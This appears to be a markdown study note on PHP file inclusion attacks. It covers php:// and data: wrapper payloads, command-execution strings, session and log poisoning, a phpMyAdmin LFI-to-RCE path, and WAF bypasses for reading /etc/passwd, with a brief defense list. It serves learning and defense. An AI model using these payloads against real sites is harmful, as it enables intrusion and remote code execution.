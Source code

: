 # File Inclusion    
Scene: Attacker can control the variable which can determine the included files  
Dangerous functions：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
PHP will run the content of file as php script when it includes a file, so it is **not influenced by file extension**!.    

# RFI  
Include remote file, more dangerous, but more requirement, so mostly disappear in real world  
`php.ini` setting  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# Methods to include  
1. php protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  
Place of stored session：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
CVE：  
phpmyadmin from LFI to RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  
4. SSH log inclusion  
**Permission** to read？  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
